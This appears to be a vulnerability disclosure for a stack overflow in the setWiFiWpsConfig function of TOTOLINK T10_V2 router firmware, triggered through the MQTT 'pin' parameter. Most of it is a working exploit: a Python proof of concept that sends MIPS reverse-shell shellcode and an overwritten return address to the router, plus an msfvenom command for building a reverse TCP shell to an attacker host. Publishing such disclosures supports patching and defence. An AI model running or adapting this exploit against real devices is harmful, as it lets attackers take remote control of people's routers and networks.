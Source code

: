 Information
===========

**Vendor of the products**: TOTOLINK <br>

**Vendor's website**: http://www.totolink.cn <br>

**Reported by**: korey0sh1(korey0sh2@gmail.com) <br>

**Affected products**: TOTOLINK T10_V2 <br>

**Affected firmware version**: V5.9c.5061_B20200511 <br>

**Firmware download address**: http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=16&ids=36 <br>

Overview
===========

**TOTOLINK T10_v2 V5.9c.5061_B20200511** has a **stack overflow** vulnerability detected at function **setWiFiWpsConfig**. Attackers can send dirty data by mqtt packet into parameter **pin** to control the return address and execute shellcode. <br>

Vulnerability details
=====================
The vulnerability is detected at **/lib/cste_modules/wps.so** <br>

In the function **setWiFiWpsConfig**, the content obtained by program through parameter **pin** given by MQTT data packet is passed to variable **v11**. Then, the variable **v11** will copy to the variable **v22**, however,**v22** is on the stack,but there isn't any length check of **v11**.So we can set **wscMode** = **1** and **wscPinMode** = **1** to execute **strncpy**,and set the length of **pin's content** very long to cause stack overflow. <br>
![](https://github.com/Korey0sh1/IoT_vuln/blob/main/TOTOLINK/T10_V2/0.jpg) <br>

Above all, attackers can send a MQTT data packet and control the content of parameter **pin** to cause stack overflow. <br>

Proof of Code
====================
```python
from pwn import *
import paho.mqtt.client as mqtt
import threading

context(os = 'linux', arch = 'mips', log_level = 'debug')

buf =  ""
buf += "\xfa\xff\x0f\x24\x27\x78\xe0\x01\xfd\xff\xe4\x21"
buf += "\xfd\xff\xe5\x21\xff\xff\x06\x28\x57\x10\x02\x24"
buf += "\x0c\x01\x01\x01\xff\xff\xa2\xaf\xff\xff\xa4\x8f"
buf += "\xfd\xff\x0f\x34\x27\x78\xe0\x01\xe2\xff\xaf\xaf"
buf += "\x09\x1d\x0e\x3c\x09\x1d\xce\x35\xe4\xff\xae\xaf"
buf += "\x37\x02\x0e\x3c\xc0\xa8\xce\x35\xe6\xff\xae\xaf"
buf += "\xe2\xff\xa5\x27\xef\xff\x0c\x24\x27\x30\x80\x01"
buf += "\x4a\x10\x02\x24\x0c\x01\x01\x01\xfd\xff\x11\x24"
buf += "\x27\x88\x20\x02\xff\xff\xa4\x8f\x21\x28\x20\x02"
buf += "\xdf\x0f\x02\x24\x0c\x01\x01\x01\xff\xff\x10\x24"
buf += "\xff\xff\x31\x22\xfa\xff\x30\x16\xff\xff\x06\x28"
buf += "\x62\x69\x0f\x3c\x2f\x2f\xef\x35\xec\xff\xaf\xaf"
buf += "\x73\x68\x0e\x3c\x6e\x2f\xce\x35\xf0\xff\xae\xaf"
buf += "\xf4\xff\xa0\xaf\xec\xff\xa4\x27\xf8\xff\xa4\xaf"
buf += "\xfc\xff\xa0\xaf\xf8\xff\xa5\x27\xab\x0f\x02\x24"
buf += "\x0c\x01\x01\x01"

test = "a"*60 + "\x44\x03\x42"

client = mqtt.Client()
client.connect("192.168.55.1",1883,60)
client.publish('totolink/router/setting/setWiFiWpsConfig',payload='{"topicurl":"setting/setWiFiWpsConfig","WiFiIdx":"0","PINPBCRadio":"1","PINMode":"1","PIN":"'+test+'"}'+'bling'+buf)
```
PS:
---
The offset maybe different in each device. <br>
**\x44\x03\x42** is the address which shellcode in,to get the address,you need to use gdbserver. <br>
The shellcode is which made by msf to reverse the shell <br>
```python
sfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.55.2 LPORT=2333 -f py -o shellcode.txt
```




    
    

  
